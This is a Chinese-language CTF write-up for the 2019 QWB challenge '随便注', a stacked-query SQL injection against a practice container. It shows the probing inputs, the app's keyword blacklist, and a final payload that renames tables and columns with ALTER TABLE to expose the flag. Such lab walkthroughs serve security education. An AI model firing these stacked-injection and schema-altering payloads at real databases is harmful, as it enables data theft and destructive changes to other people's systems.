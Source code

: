 # [[强网杯 2019]随便注](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)

## 解题步骤

1. 容器运行起来，只有一个输入框，结合题目名字可能是`sql注入`   

![](./img/onlysearch.png)    

2. 进行输入测试

- 输入框：`1`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

```
- 输入框：`1'`,返回    
```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```
输入框：`1"`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```
`sql`语句是使用`'`进行闭合的

- 输入：`1' or 1=1;`，看一下这个表所有数据    
    - 表中总共只有三条数据，没有发现`flag`的痕迹    

![](./img/allinfointable.png)   

输入`1`，`2`和`114514`以外的数据返回为空

- 输入：`1' or 1=1;show tables;`，看一下这个库所有表    
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

- `words`和`1919810931114514`表都感觉像藏`flag`的表。输入：`1' or 1=1;select * from 1919810931114514;`，看一下`1919810931114514`这个奇奇怪怪的表中有没有`flag`   
```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
被识别了，不能运行，不能使用`select|update|delete|drop|insert|where|\./i`这些    

- 不能查看表中数据，只能看表结构……   
输入：
```
1' or 1=1;desc `1919810931114514`;
```

![](./img/desctable.png)    

找到了`flag`可能隐藏的字段，但是不准使用`select`。而且网站默认查询的表是`words`     
```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

3. 到现在能够得到一下信息：
    - 网站的查询语句应该是：`sql='select * from words where id = '%id`
    - `flag`应该就藏在`1919810931114514`表的`flag`字段
    - 输入中不能带有`select|update|delete|drop|insert|where|\./i`这些敏感词

想要`flag`就必须有`select`，但是又限制了`select`输入……

4. 根据[其他人的writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)找到了突破点：**改名**！将`1919810931114514`改成`words`，`flag`字段改成`id`,就可以直接使用原本就有的`select`
```sql
1' or 1=1;alter table `words` rename to `no_use`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);show tables;desc `words`;# 
```   

![](./img/changetableandflag.png)    

5. 数据库修改成功，现在直接输入`1' or 1=1;`就可以得到`flag`啦   

![](./img/suibianzhu_flag.png)    

## 参考资料

- [题目对应容器-CTFTraining](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)
- [[强网杯 2019]随便注-writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)